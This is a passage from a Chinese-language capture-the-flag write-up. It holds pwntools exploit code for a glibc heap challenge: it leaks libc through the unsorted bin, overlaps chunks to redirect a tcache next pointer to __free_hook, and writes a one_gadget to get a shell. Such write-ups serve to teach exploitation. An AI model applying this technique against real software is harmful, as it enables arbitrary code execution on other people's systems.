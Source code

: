    ![image-20240731165354644](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407311653732.png)

   size填充：

   ![image-20240731165400775](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407311654850.png)

2. free两个chunk，然后修改next指针指向刚才伪造的chunk：

   ```py
   free(0)
   free(1)
   
   # 泄漏libc地址
   p.sendlineafter(b':\n',b'5')
   p.sendlineafter(b'?',str(1).encode())
   p.sendlineafter(b'How much?',str(np.uint32(-0xc0)).encode())
   ```

   ![image-20240731165700088](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407311657196.png)

3. 申请拿到伪造的chunk，然后释放进入unsorted bin，泄漏libc地址：

   ```py
   add(1,b"GGGGGGG")  #5
   add(1,b"JJJJJJJ")  #6
   free(6)
   show(6)
   p.recvuntilb(b"cost: ")
   addr = eval(p.recv(15))
   print(addr)
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```

4. 最后，释放两个0x110chunk（第二次释放的必须是chunk1，后面要利用overlaping来修改他的next指针），再申请一个0x70的chunk(会从刚刚释放的unsorted bin中拿)造成overlaping，修改next指针指向**free_hook-0x10**，最后用one_gadget填入即可：

   ```py
   #任意地址申请chunk 申请到free_hook
   # 修改next 指向free_hook-0x10
   free(2)
   free(1)
   add(2,p64(0)*7 + p64(0x111) + p64(free_hook_addr-0x10))  #4   
   add(1,b"aaaa")  #8
   
   #修改free_hook 写入ona_gadget
   add(1,p64(libc_base+0x4f302))  #9
   free(8)
   p.sendline(b"cat flag")
   p.interactive()
   ```
